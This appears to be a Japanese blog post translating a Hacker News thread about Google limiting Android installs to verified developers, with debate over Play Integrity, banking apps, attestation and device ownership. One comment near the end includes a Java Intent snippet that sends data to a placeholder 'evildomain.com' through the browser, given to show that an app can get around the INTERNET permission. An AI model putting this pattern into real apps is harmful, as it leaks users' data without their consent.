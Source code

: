 +++
date = '2025-08-25T00:00:00'
months = '2025/08'
draft = false
title = 'Google、Androidアプリのインストールを『検証済み開発者』のみに制限！ユーザーの自由度に影響か'
tags = ["Android", "Google", "アプリ", "開発者", "セキュリティ"]
featureimage = 'thumbnails/blue.jpg'
+++

> Google、Androidアプリのインストールを『検証済み開発者』のみに制限！ユーザーの自由度に影響か

引用元：[https://news.ycombinator.com/item?id=45017028](https://news.ycombinator.com/item?id=45017028)




{{<matomeQuote body="追加情報として、TechCrunchの記事とGoogleの公式アナウンスメント2つ、Play ConsoleのヘルプページのURLを載せとくね。(merged threadからだよ)<br>https://techcrunch.com/2025/08/25/google-will-require-develo...<br>https://android-developers.googleblog.com/2025/08/elevating-...<br>https://developer.android.com/developer-verification<br>https://support.google.com/googleplay/android-developer/answ..." userName="kotaKat" createdAt="2025/08/25 18:18:18" color="#ff5733">}}




{{<matomeQuote body="自分のデバイスを使うのに、海外企業と契約関係を結ばないとダメになるってことだね。GrapheneOSも厳しくなるし、銀行アプリはPlay Protect使うから自由が利かない。Androidはもはやオープンソースとは言えないよ。そろそろHuaweiのHarmonyOSみたいな第三のスマホOSが必要じゃない？ 特にモバイルファーストのサービスが多いからさ。" userName="arielcostas" createdAt="2025/08/26 11:11:45" color="#45d325">}}




{{<matomeQuote body="根本的な問題はPlay Integrityだと思うんだよね、これさえなければ良いのに。アプリが「公式認定されたAndroidデバイスでしか動かない」って言えるのが問題の核心だよ。これがないなら、Google以外のAndroidでも公平に競争できるし、嫌ならGrapheneOSとか使えばいい。Play Integrityがあるから銀行アプリとか使えなくなるリスクが常にあるんだよ。これさえなくなれば、Googleの制限にももっと納得できるんだけどな。" userName="pimterry" createdAt="2025/08/26 11:20:21" color="#38d3d3">}}




{{<matomeQuote body="銀行はPlay Integrityを本当に「欲しがってる」みたいだね。ユーザーが管理するデバイスでのオンラインバンキングが完全に廃止されるのを望んでいるようにすら見えるよ。" userName="avhception" createdAt="2025/08/26 11:30:25" color="">}}




{{<matomeQuote body="それは、Play Integrityがそこにあるから使ってるだけだよ。もし提供されてなかったら、銀行側が「99.99999%のスマホで動くこのセキュリティ機能、使わないようにしましょう」なんて経営陣に言うわけないじゃん。" userName="IshKebab" createdAt="2025/08/26 11:47:23" color="">}}




{{<matomeQuote body="元銀行アプリ開発者として言わせてもらうと、いや違うね。Play Integrityみたいな機能は、もし無かったら企業や銀行側が間違いなく要求するよ。今は脆弱な人を狙った詐欺が多いし、スマホへの攻撃はすごく「簡単」なんだ。もしかしたら「信頼モード」と「オープンモード」を切り替えられるような、もっと寛容な実装方法があるかもしれないけど、現実的にはそんな需要は大きくないだろうね。" userName="mhast" createdAt="2025/08/26 12:03:38" color="#ff33a1">}}




{{<matomeQuote body="Play Integrityは悪意ある行為を防ぐのにほとんど役立たないよ。むしろ、銀行みたいな人たちに誤った自信を与えてるから、全体的に有害だと思う。Play Integrityがあってもクライアントを信頼しちゃダメだ。デバイスはまだ危険だし、偽の銀行アプリもあるし、キーロガーもある。Webだとクライアントを信頼しないようにアプリを設計せざるを得ないけど、Play Integrityがあるとそうしないかもしれない。それが大きな問題だよ。" userName="const_cast" createdAt="2025/08/26 12:30:22" color="#45d325">}}




{{<matomeQuote body="でも、ブラウザにはこんなのを要求しないのが absurd だよね。誰かがバックドア付きの改ざんされたブラウザをダウンロードする方が、特定の銀行アプリの改ざん版をダウンロードするよりもはるかにリスクが高いと思うんだけど。攻撃者には同じレベルの制御を許しちゃうのにさ。" userName="ulrikrasmussen" createdAt="2025/08/26 13:24:43" color="#ff5733">}}




{{<matomeQuote body="銀行はブラウザを受け入れてきたわけじゃないよ。ログインや取引承認のような重要なことには、モバイルアプリやSMSコード、スマートカードリーダーみたいな、もっと管理された別のハードウェアを要求してたんだ。最近は取引デバイスに基づいてリスク分析もしてるし、スイスみたいにQRコード決済はモバイルアプリ必須とか、モバイルに移行させようとしてるね。一部の銀行はもっと緩いけど、多くの地域ではオンラインバンキングの初期からこれが常識だったんだ。" userName="mike_hearn" createdAt="2025/08/26 13:27:07" color="#ff5733">}}




{{<matomeQuote body="それって「シートベルトしても人が死ぬから無意味」っていう議論だよね。しかも「かえって安心感を与えて危険」ってオマケつき。Play Integrityは、ブルートフォース攻撃や侵害されたデバイスからの攻撃を大幅に減らすんだよ。もちろん完全に排除はできないけど、複雑なシステムでは検証済みの完璧な解決策なんてめったにないから、セキュリティは統計のゲームなんだ。ほとんどの大規模な公開アプリでは、サインイン試行の大半が悪意のあるものだし、成功した攻撃の大部分はデスクトップWebみたいな非認証プラットフォームから来てる。アッテステーションはここで貴重なツールなんだよ。" userName="brookst" createdAt="2025/08/26 12:43:36" color="#45d325">}}




{{<matomeQuote body="「GNU/Linux」タッチ版でちゃんとしたエコシステムを作るのは超難しい問題だよね。Linus Torvaldsみたいな大物がリーダーシップを発揮するか、Microsoftみたいな大企業が巨額を投じないと無理。小さな努力だとバラバラのままだよ。クラウドファンディングも有名人が絡めば強いけど、Star Citizenが8億ドルも集めたみたいにね。GNU/Linuxスマホ開発を誰がリードするんだろうね？" userName="Ciantic" createdAt="2025/08/26 11:52:09" color="#45d325">}}




{{<matomeQuote body="それは…間違いだよ。デンマークで使ってる銀行は全部、アプリなしでログインして全ての操作ができるんだ。認証と承認には国のデジタルID（MitID）を使うけど、それはアプリだけじゃなくTOTPトークンやFIDO（または類似の）チップとしても使えるからね。アプリは必要ないんだ。OSをロックダウンしてクライアントの信頼を確立する必要はないってことだよ。Play Integrityなしでも、NFCでハードウェアトークンをスキャンすればいいんだから。" userName="ulrikrasmussen" createdAt="2025/08/26 13:35:40" color="#785bff">}}




{{<matomeQuote body="そりゃそうするよ、銀行は。ユーザーのバカげた行為のせいで、とんでもない法的責任を負ってるんだからさ。もし俺の銀行口座が不正利用されても、俺がどんなセキュリティ対策もしてなくても、銀行は返金しなきゃいけない。もし銀行が「パスワードマネージャーやMFAを使ってないなら自業自得だ」って言えたら、こんなことしないだろうけど、政府が許さないんだ。詐欺師への合法的な送金でも、銀行に責任を負わせる動きすらある。そりゃ銀行も、ユーザーの動きを監視してデバイスを制御したがるさ。インセンティブを考えたら、そうしない方がバカだろ。" userName="terminalshort" createdAt="2025/08/26 13:58:00" color="#38d3d3">}}




{{<matomeQuote body="Purism Librem、Liberux NEXX、/e/ foundation、eelo、Ubuntu Edge、Jolla phone…たくさんのクラウドファンディングがあったけど、どれも成功しなかったね。一番惜しかったのはMozillaのFirefox OSかな、今はKai OSだけど。俺もまだAlcatel OT Fire phone持ってるよ、HTML5全開さ！<br>でも、Sailfish OSは成熟したエコシステムを持ってて、EUでもよく知られてるし、GNU/Linuxベースだよ。俺はUBportsから乗り換えて毎日使ってるけど、すごく快適。もっとSailfish OSが人気になるといいな。" userName="niutech" createdAt="2025/08/26 12:14:40" color="#ff5733">}}




{{<matomeQuote body="Play Integrityがなくなったら、普通のAndroidユーザーは急にCAPTCHAとか他のセキュリティ対策が爆増するだろうね。AI企業がウェブサイトを猛烈にスクレイピングしてることへの怒りのコメントと、デバイスアテステーションに不満を持つコメントが、同じコインの裏表だってことに気づいてる人が少ないのは面白いよ。Play Integrity（AppleのPATもね）は、モバイルユーザーがPCユーザーより煩わしさ少ないのはそのためなんだ。それがモラル的に良いこととは言わないけど（技術はめったにモラル的じゃないから）、一般ユーザーにもパワーユーザーにもメリットとデメリットがある能力なんだよ。" userName="brookst" createdAt="2025/08/26 12:36:36" color="#45d325">}}




{{<matomeQuote body="デバイスアテステーションがブルートフォース攻撃をどうやって減らすの？バックエンドがアカウントごとの試行回数制限を設けてないなら、それは重大な脆弱性だよ。そうじゃないなら、アテステーションはその役目を果たしてない。デバイスが侵害された場合（悪意のあるメイド攻撃を想定してるなら）、Androidにはセキュアブートが実装されてて、信頼の連鎖が壊れたらデータは全消去される。もう十分すぎるほどの警告が出てるから、何も知らない“平均的なユーザー”を諦めさせるには十分だし、ユーザーを騙すもっと簡単な方法もあるんだよ。" userName="pona-a" createdAt="2025/08/26 12:55:25" color="#45d325">}}




{{<matomeQuote body="俺はそういうシステムに携わってきたけど、好き嫌い関係なく、リモートアテステーションは不正利用を叩き潰すんだ。詐欺スキームを利益が出るレベルまで拡大するのが、自動化できないと格段に難しくなるからね。だから、それが存在してて、銀行もそれを使ってるんだよ。" userName="mike_hearn" createdAt="2025/08/26 13:02:44" color="#ff5c5c">}}




{{<matomeQuote body="まさに俺が言ってるのはそれだよ。ウェブブラウザだけで操作はさせないんだ。モバイルアプリを使わないなら、似たような機能を持つ信頼できるハードウェアを渡されるんだ（大抵はセキュリティが甘くて不便だけどね）。俺の銀行はまだスマートカードリーダーでログインや取引承認ができるけど、新しい受取人を承認するには口座番号の一部を入力しなきゃいけない。その後ならハードウェア認証なしで追加の取引ができるよ。純粋なNFCトークンじゃダメ。信頼できるI/Oが必要なんだ。" userName="mike_hearn" createdAt="2025/08/26 13:38:22" color="#785bff">}}




{{<matomeQuote body="「第3の大型スマホOSが必要な時だ」って？もう何年も前からそうだよ。今一番近いのは、いろいろあるスマホ向けLinuxディストロだね。でも、少なくともPinephoneではまだ実用レベルじゃないんだ。それでも、本気で変化を望むなら、そこに時間とお金を投入すべきだよ。" userName="TheCraiggers" createdAt="2025/08/26 12:08:51" color="#ff5c5c">}}




{{<matomeQuote body="そんな単純な話じゃないんだ！Play Integrityの最高レベルの認証には、セキュリティアップデートが1年以内に提供されてるデバイスが必要なんだよ。多くのAndroidデバイスは長年セキュリティアップデートが出てないから、これはユーザーに不必要に高いOEM製品に買い替えを強要してるんだ。GoogleはXiaomi、Huawei、その他多くの優れた格安オプションを提供する企業を事実上締め出してる。Googleは単にCAPTCHAを減らして快適さを提供してるだけじゃなくて、最も重要なのは独占を図ってるんだ。" userName="j4hdufd8" createdAt="2025/08/26 14:35:10" color="#ff5c5c">}}




{{<matomeQuote body="技術に詳しい人は、仕事用と個人用の2台持ちになるだろうね。片方は銀行とか会社用、もう片方は自由に使えるデバイスにして、ホットスポットでつなぐ感じ。クリーンな使い方と変な使い方を分けるのは、もしかしたら良いことなのかもね。" userName="nick486" createdAt="2025/08/26 12:38:01" color="#785bff">}}




{{<matomeQuote body="小規模な開発者がバラバラに頑張ってるのが問題なんだよね。SailfishOSには頑張ってほしいけど、有名な後ろ盾がないとクラウドファンディングも難しい。新しいOSが勝つには、アプリ開発者が参入したくなるようなユーザーが必要だよ。SailfishOSでもAndroidアプリ互換性が必要だけど、Play ServicesとかPlay integrityでそのうち使えなくなるだろうね。" userName="Ciantic" createdAt="2025/08/26 12:23:01" color="#45d325">}}




{{<matomeQuote body="Androidはもうオープンソースじゃないって諦めたわ。Ubuntu Phoneも夢だったな。誰もデバイス作ってくれないし、キャリアも興味ないし、市場に食い込むのは無理。MicrosoftやAmazonが本気でオープンソースにして、フラッグシップ機と多額の投資をすればワンチャンあるかもだけど、アプリ移行も大変だもんね。" userName="giancarlostoro" createdAt="2025/08/26 12:34:37" color="">}}




{{<matomeQuote body="司法とか政治家がテクノロジーに疎いからこんなの許されてるんだよね。Play Integrityが独禁法違反なのは明らかだよ。Google以外のAndroidフォークを排除することが、このシステムの唯一の目的なんだから。" userName="realusername" createdAt="2025/08/26 11:57:07" color="">}}




{{<matomeQuote body="Googleで attestation システムを開発してた者だけどさ、パスワードの総当たり攻撃ってサーバー側じゃ無理なんだよね。ボットネットは大量のIPから攻撃してくるから。デバイス attestation は、攻撃者に「ロボットだらけの倉庫」を用意させるレベルで難しくするよ。ブラウザじゃ限界あるけど、モバイルアプリなら可能。GoogleはJavaScript VMでブラウザ自動化を見つけてて、昔はめっちゃ効果あったんだ。" userName="mike_hearn" createdAt="2025/08/26 13:24:39" color="#45d325">}}




{{<matomeQuote body="「第三のデカいスマホOS」なんて、AppleとGoogleが共謀して潰したんだよ。Microsoftでさえ追い出されたんだからね。これ以上強い挑戦者がいるわけないじゃん？" userName="rollcat" createdAt="2025/08/26 12:33:16" color="">}}




{{<matomeQuote body="Play IntegrityとPATを使って、正規ユーザーにはCAPTCHAなし、不正なクライアントにはチャレンジさせる製品開発してる者だけどさ、あなたの言ってることは間違ってるよ。メリットがデメリットを上回るかは別として、このシステムの使われ方を知らないと、デメリットも正確に理解できてないんじゃないかな。" userName="brookst" createdAt="2025/08/26 12:46:35" color="">}}




{{<matomeQuote body="Play Integrityなんて信じられないね。(1) 不正が起きないって勝手に思い込んでるだけじゃん。(2) フィッシングとかソーシャルエンジニアリングとか、意味ある詐欺は何も防げないよ。ほとんどの銀行詐欺は本物のアプリやサイトで起こるし、偽アプリなんていらないんだから。小切手詐欺やクレカ詐欺も同じだよ。" userName="const_cast" createdAt="2025/08/26 14:40:29" color="#38d3d3">}}




{{<matomeQuote body="(ID 60538への返答) ローエンドのOEMだってセキュリティアップデートは出せるよ。でもそうすると、安いデバイスのコストが上がっちゃうし、メーカーも儲からなくなるからね。" userName="devmor" createdAt="2025/08/26 15:18:55" color="">}}




{{<matomeQuote body="Google Play Protectとかいうくだらないものに何のメリットがあるんだ？結局ウェブブラウザから銀行にアクセスできるなら無意味じゃん。こんなバカな機能は誰も守れないよ。" userName="gonzalohm" createdAt="2025/08/26 11:40:47" color="">}}




{{< details summary="もっとコメントを表示（1）">}}

{{<matomeQuote body="これを否定するのは勝手だけど、使われる理由に困惑するのはおかしいよ。詐欺や悪用は顧客がアカウントをハッキングされて怒る形で表面化するんだ。この機能はフィッシング対策にも効果的で、やり方は説明しても信じないだろうけどね。小切手詐欺なんて言ってるってことは、セキュリティがひどいアメリカの銀行を使ってるんだろ？USA以外のまともな銀行じゃ、パスワードだけじゃ口座には入れないし、小切手詐欺もクレジットカードのフィッシングもないんだよ。全てのクレジットカード取引は、ペアリングされたモバイルアプリへのプッシュ通知でリアルタイム承認されるからね。" userName="mike_hearn" createdAt="2025/08/26 15:02:13" color="#785bff">}}




{{<matomeQuote body="俺たちが所有するPCにソフトウェアをインストールしたり変更したりできるべきだっていう前提から、毎日どんどん離れていってるよ。「rootアクセス権」の概念をもう一度提唱するべきだね。大企業がこういうくだらないことを繰り返すのを防ぐためにさ: https://medhir.com/blog/right-to-root-access" userName="medhir" createdAt="2025/08/26 03:18:33" color="#785bff">}}




{{<matomeQuote body="マルウェア作って何十億も騙し取るクソ野郎どもに言ってやれよ。ほとんどのユーザーはネットで自分自身を守れないんだ。深く考えずに何でもインストールしたがる。企業がこれらを可能にして、普通の人がリンクをクリックしたり、どんなガラクタでもインストールしたりしても、ある程度安全でいられるようにしてるんだ。" userName="ozim" createdAt="2025/08/26 10:23:13" color="">}}




{{<matomeQuote body="問題は、俺たちが所有するPCを改造できるべきかじゃなくて、そもそも俺たちが本当にそれを「所有」しているのか、ってことなんだよ。" userName="_heimdall" createdAt="2025/08/26 03:53:43" color="">}}




{{<matomeQuote body="そのうち企業はブラウザまでロックダウンしようと考えてるぞ。これ覚えてるか？ https://chromestatus.com/feature/5796524191121408<br>大企業や政府が応援する中で、また試してくるだろうね。" userName="baq" createdAt="2025/08/26 06:06:21" color="#785bff">}}




{{<matomeQuote body="「大企業や政府が応援する中で、また試してくるだろうね」<br>まったくだよ。彼らは一度勝てばいいだけ。俺たちは、終わりのない攻撃から自分たちの自由を守り続けなきゃならないんだ。もううんざりだし、幻滅してるよ。" userName="matheusmoreira" createdAt="2025/08/26 07:28:45" color="">}}




{{<matomeQuote body="企業が何を言おうと、俺たちが買ったデバイスは、俺たちのものだ。" userName="yesbut" createdAt="2025/08/26 04:04:16" color="">}}




{{<matomeQuote body="いつもそうとは限らないよ。サブスクでしか機能が有効にならない車を売ってる自動車メーカーもあったし。ヒーター付きシートの車を買っても、メーカーが有効にしないとシートヒーターが使えない、みたいなね。" userName="_heimdall" createdAt="2025/08/26 04:17:20" color="">}}




{{<matomeQuote body="一つの方法は、理想的とは程遠いけど一番簡単なのは、古いデバイスと古いOSだけを使うことだね。ハッキングされたり、root化しやすいやつ。「でも安全じゃないだろ！」って？いや、それがポイントなんだよ。" userName="bambax" createdAt="2025/08/26 08:03:45" color="">}}




{{<matomeQuote body="ルートアクセスは禁止せず、リスクを教えて保証を無効にするだけでいい。<br>ユーザーが自分のハードウェアで好きなことをできるようにするべきだね。<br>所有者の自由を奪わないでほしいな。" userName="fimdomeio" createdAt="2025/08/26 10:31:25" color="#ff5c5c">}}




{{<matomeQuote body="私有財産や知的財産、所有権のあり方って、まだ人類にはちゃんとした答えがないよね。<br>でも、もっと普通の人が利益を得られるべきだと思うんだ。" userName="_def" createdAt="2025/08/26 04:22:41" color="">}}




{{<matomeQuote body="1000万ドルでチップ製造工場を建てられないと、本当にコンピューターを「所有」してるって言えないよね。<br>ハードウェアが身近にならないと、結局は大きな企業がソフトウェアを全部コントロールしちゃうんだ。" userName="abdullahkhalids" createdAt="2025/08/26 06:04:26" color="#ff33a1">}}




{{<matomeQuote body="これはマルウェアや詐欺の話じゃなく、ただのPRの言い訳だよ。<br>Googleの本当の目的は、Play Storeの収益を増やすこと。AppleとGoogleのアプリ手数料収入の差を見れば明らかだよね。<br>Googleの「ユーザーのため」なんて信じちゃダメ。彼らは独占を強化して利益を最大化したいだけなんだから。Androidを閉鎖的に保つために、S&P500企業が払う以上のお金を弁護士費用に使ってるよ。" userName="thecupisblue" createdAt="2025/08/26 10:53:33" color="#38d3d3">}}




{{<matomeQuote body="自分で買った車のシートヒーターを、メーカーに連絡しないで使えるようにするのを禁止する法律なんて、あってはいけないよね。" userName="AnthonyMouse" createdAt="2025/08/26 04:27:18" color="">}}




{{<matomeQuote body="EUがChat Control法案を導入したら、簡単に回避できることに気づくはず。<br>そうなると、次はすべてのデバイスをロックダウンするって話になるよね。<br>そしたら、私たちのデジタルインフラは全部、モバイル市場の二大巨頭であるAppleとGoogleに完全に支配されちゃうよ。" userName="ulrikrasmussen" createdAt="2025/08/26 08:59:09" color="#ff5733">}}




{{<matomeQuote body="自分のミスから、困ってる一部の人たちを守ろうとすることで、社会全体がどれだけ不便になってるか、びっくりするよね。" userName="quotemstr" createdAt="2025/08/26 05:06:30" color="">}}




{{<matomeQuote body="「自分が持ってるコンピューターにソフトを好きにインストール・変更できるべき」っていう考え方には、俺は賛成したことないな。<br>普段の生活でも、だいたい自分の欲しいものを買ってるだけだし、コンピューターもそれでいいんじゃないかって思ってるよ。" userName="paulcole" createdAt="2025/08/26 03:58:14" color="">}}




{{<matomeQuote body="Googleを弁護すると、彼らはたくさんのスパムアプリを許してたことで、めっちゃ批判されてたんだよね。" userName="wouldbecouldbe" createdAt="2025/08/26 06:41:55" color="">}}




{{<matomeQuote body="だから、必要ならいつでもLinuxを使って、全部ソースからコンパイルすればいいんじゃない？" userName="hoppp" createdAt="2025/08/26 10:29:50" color="">}}




{{<matomeQuote body="高齢の親の介護経験から、ネットは認知能力が低い人には危険すぎるって痛感したよ。現代社会でネットなしは無理ゲーで、親からネットを取り上げたらもっと孤立しちゃう。詐欺師に法の裁きはないし、弱者はデマや詐欺のやりたい放題。どうにかしてくれ！" userName="carefulfungi" createdAt="2025/08/26 11:42:30" color="#ff33a1">}}




{{<matomeQuote body="シートヒーターの話は特殊だけど、車を勝手に改造すると危険だから政府が規制するのはアリって意見もあるよね。ITでも、無線周波数帯を誰もが自由に使いまくったら、かえって不利益が大きい。だから、どこまでが自由で、どこからが規制かって線引きはめちゃくちゃ難しいんだよ。" userName="gf000" createdAt="2025/08/26 06:10:52" color="#ff5733">}}




{{<matomeQuote body="これじゃ全然足りないよ。銀行アプリとか、生活に必須なのに、root化されてないGoogle Play Services付きのスマホじゃないと動かないことが多いんだ。しかも2年前のOSはすぐサポート終了とか、完全に消費主義に踊らされてる。この寡占状態をぶっ壊す法律が必要なのに、EUですら逆行してるのはマジで残念。" userName="andrepd" createdAt="2025/08/26 08:45:36" color="#ff5c5c">}}




{{<matomeQuote body="PCはさ、買ってSecure Boot無効にしてLinux入れたら、あとは好き勝手できるじゃん？スマホだって同じようにできても良くない？" userName="ozgrakkurt" createdAt="2025/08/26 07:01:10" color="">}}




{{<matomeQuote body="俺らは元々、買ったものを好きにできる権利を持ってる！でも、ちょっとした法的な判断がディストピアを生んだんだ。特にFirst-sale doctrineが全てを解決するはずなのに。裁判所がライセンス例外を善意で解釈しちゃったせいで、First-sale doctrineが事実上骨抜きにされた。この抜け穴とDMCAさえなくせば、こんなバカな制限はすぐになくなるはず！買ったものは、商業目的の複製以外は好きにしていいんだ！<br> [1] - https://en.wikipedia.org/wiki/First-sale_doctrine" userName="somenameforme" createdAt="2025/08/26 05:20:16" color="#45d325">}}




{{<matomeQuote body="みんな間違いはするもんだ。だから、最下層の人たちを過ちの結末から守るってことは、誰だってミスる可能性があるから、結局はみんなを守ることになるんだよ。社会は、常にビクビクして重大なミスをしないようにしなきゃいけない、なんて構造であるべきじゃないだろ。" userName="bluefirebrand" createdAt="2025/08/26 05:17:41" color="#ff5733">}}




{{<matomeQuote body="俺の周りには、スマホでマルウェア入れたりハッキングされたりした奴はマジでゼロ人だね。被害にあったって知ってるのはみんなPCユーザーで、しかも「IT部門です」みたいなソーシャルハッキングに引っかかった奴らばっか。友達も、それで銀行の顧客データを何千人分も漏洩させちゃったんだから。" userName="epolanski" createdAt="2025/08/26 10:31:46" color="">}}




{{<matomeQuote body="人に自由な発想をさせながら、間違いをゼロにするなんて無理ゲーでしょ。素晴らしいアイデアのほとんどは、最初はバカげてるように見えるもんだよ。俺は安全第一よりも、新しい発見を重視する世界で生きたいね。" userName="quotemstr" createdAt="2025/08/26 05:21:17" color="#ff33a1">}}




{{<matomeQuote body="あのシートヒーターの件、妥当なエッジケースだと思ったの俺だけ？ヒーターってレザーシートの寿命縮めるらしいじゃん。全車に搭載する方が、2種類の生産ライン作るより安く済むしね。サブスクは、ヒーター使ってシート交換が早まるコストを相殺する費用だったんだよ。もし自分でヒーター使ってシートがダメになっても、保証で使えるようにする選択肢があったら無料で交換する必要なかったはず。それに、反発でサブスク自体やめたらしいしね。" userName="protocolture" createdAt="2025/08/26 05:58:31" color="#ff33a1">}}




{{<matomeQuote body="ハードウェアの破れないロックを禁止する規制も必要だね。VLSIの奥深くにロックを組み込まれたら、もうどうしようもないから。もっと具体的に言うと、ハードウェアメーカーのソフトは、ハードの一部か独立製品か選ばせてほしいな。ハードの一部ならGPLv3とアンチTiVo化条項で公開義務。独立製品なら、公開されたAPIのみ使って、他社が公平に競合製品作れるようにするべき。理想はクロスプラットフォームで、できないなら開発者が証明する、って感じ。" userName="john01dav" createdAt="2025/08/26 08:30:31" color="#ff5733">}}




{{<matomeQuote body="規制で阻止するより、製品買う前にメーカーがちゃんと説明する規制がいるんじゃない？情報に基づいた同意ってすごく大事だよ。" userName="_heimdall" createdAt="2025/08/26 21:46:48" color="#785bff">}}

{{</details>}}




{{< details summary="もっとコメントを表示（2）">}}

{{<matomeQuote body="ハードウェアメーカーがみんなSecure Bootを強制することになったら、どうやってLinuxをインストールするつもり？「セキュリティのため」って言うけどさ。" userName="gkbrk" createdAt="2025/08/26 11:07:20" color="#ff5c5c">}}




{{<matomeQuote body="「リスクを知らせるだけでいい」って言うけど、警告だけじゃダメな時もあるんだ。人が自分を傷つけないように物理的に制限する必要があることも。みんながバカなわけじゃない。疲れてたり、気が散ってたりして詐欺に遭う賢い人もいるし、「デバイスがOKなら問題なし」って思って警告無視する人も多いよね。" userName="scott_w" createdAt="2025/08/26 12:41:03" color="#38d3d3">}}




{{<matomeQuote body="公式発表と情報源はこれ→ https://android-developers.googleblog.com/2025/08/elevating-...、https://developer.android.com/developer-verification、https://support.google.com/googleplay/android-developer/answ...<br>正直、Play Storeは悪意あるアプリだらけで、こんな認証はユーザー保護にならない。これはGoogleのパワープレイで、Revancedみたいなアプリを潰すためだよ。Googleは気に入らない開発者をすぐにアカウント停止にするだろうし。Googleが「安全」って言うたび、隠れたInternetパーミッションで95%のマルウェア防げるのに、広告ブロックさせたくて隠してるんだなって思う。あと「開発者を確認するだけでアプリの中身はレビューしない」って変じゃない？それじゃマルウェア防げないし。もうGoogleアカウントなんて作ってまでAndroid向けに開発する気ないね。LinuxとWindowsで十分。" userName="87636899376" createdAt="2025/08/25 20:01:04" color="#785bff">}}




{{<matomeQuote body="Internetパーミッションって広告とは関係ないよ？隠されてるのは、1) Internet接続なんて当たり前すぎて表示しても邪魔なだけだから。2) 完璧じゃないから。Internetパーミッションがなくても、Intentとか使って他のアプリ経由でデータは簡単に外に送れるんだよ。" userName="kllrnohj" createdAt="2025/08/25 21:02:02" color="#ff5733">}}




{{<matomeQuote body="これってユーザーのセキュリティのためじゃないよね。権力と顧客囲い込みのためだよ。Googleはスマホがハッキングされても銀行口座が空になっても気にしない、大事なのは収益だけ。Androidは今のままでいい。もしGoogleが心配なら、Play Storeを2層にすればいいんじゃない？厳選アプリのストアと、今のストアみたいな自由なストアにさ。選択肢は良いこと、ロックダウンは悪いことだよ。" userName="EasyMark" createdAt="2025/08/26 01:04:46" color="#ff5733">}}




{{<matomeQuote body="「Internet接続は当たり前だから表示してもノイズ」って言うけど、それって全然役に立たないってことにはならないよ。「Internetパーミッションは完璧じゃない」って言うけど、それをバイパスする具体的なPoCは見たことないんだよね。仮に欠陥があるとしても、ユーザーがそれを無効にできたら、Googleだってちゃんと機能させるように頑張るんじゃないの？" userName="87636899376" createdAt="2025/08/25 21:26:40" color="#38d3d3">}}




{{<matomeQuote body="この隠れたInternetアクセス制御設定について、もう少し詳しく教えてくれない？" userName="baby_souffle" createdAt="2025/08/25 20:36:15" color="">}}




{{<matomeQuote body="これはやりすぎな対応だけど、Googleがセキュリティ脅威をでっち上げてるわけじゃないんだ。攻撃者がユーザーにマルウェアをサイドロードさせるのはマジな話だよ。詳しくはここ見て→ https://www.bitdefender.com/en-us/blog/hotforsecurity/hacker..." userName="skybrian" createdAt="2025/08/26 01:29:44" color="#ff5733">}}




{{<matomeQuote body="「InternetパーミッションをバイパスするPoCを見たことがない」って言うけど、例えば`Uri uri = Uri.parse(”https://evildomain.com/upload?data=DATA_GOES_HERE);`って書いて、`Intent i = new Intent(Intent.ACTION_VIEW, uri);`でブラウザアプリに送らせれば、ブラウザがデータを勝手に送っちゃうんだよ。Intentの受信側アプリの全てのパーミッションを要求するのは、Androidのエコシステムにとってヤバい変更になっちゃうからね。" userName="UncleMeat" createdAt="2025/08/25 22:23:12" color="#785bff">}}




{{<matomeQuote body="俺のスマホのアプリを見ても、インターネット不要なものが1/4もある。水準器とかGPS速度計とか、なんでネットアクセスいるんだ？Googleの収益源考えたら、データ収集や広告目的だろうな。Manifest V3の件もそうだし、インターネット接続権限を無効にするのはGoogleの儲けのためだろ。<br>" userName="zrobotics" createdAt="2025/08/25 22:30:26" color="#45d325">}}




{{<matomeQuote body="`＜uses-permission android:name=”android.permission.INTERNET” /＞`ってAndroid 1.0からあるんだぜ。問題は、ユーザーがこれを拒否できないことだ。<br>" userName="nottorp" createdAt="2025/08/25 21:45:28" color="">}}




{{<matomeQuote body="Googleは（この記事にある変更点みたいに）実際に問題のあること山ほどやってるよ。だからといって、わざわざ変な陰謀論をでっち上げる必要はないだろ。<br>" userName="kllrnohj" createdAt="2025/08/26 00:48:21" color="">}}




{{<matomeQuote body="＞攻撃者がユーザーにマルウェアをサイドロードさせるのは現実だ。 <br>いや、それはGoogleの問題じゃないだろ。誰かがSwiss Army knifeで人を切ってもVictorinoxの問題じゃないし、Toyota車で歩行者をひいてもToyotaの問題じゃないのと一緒だ。<br>" userName="eadmund" createdAt="2025/08/26 01:47:28" color="">}}




{{<matomeQuote body="車会社は車が簡単に盗まれることを気にするし、たとえ盗難が個別の責任じゃなくても新型車のセキュリティを改善するよな。そうしないと評判が落ちて政府が動くかもしれないから。だから実際には、大企業はユーザーのことを気にかけなきゃいけないんだ。個々じゃなくて、全体としてね。<br>" userName="skybrian" createdAt="2025/08/26 01:59:13" color="#ff33a1">}}




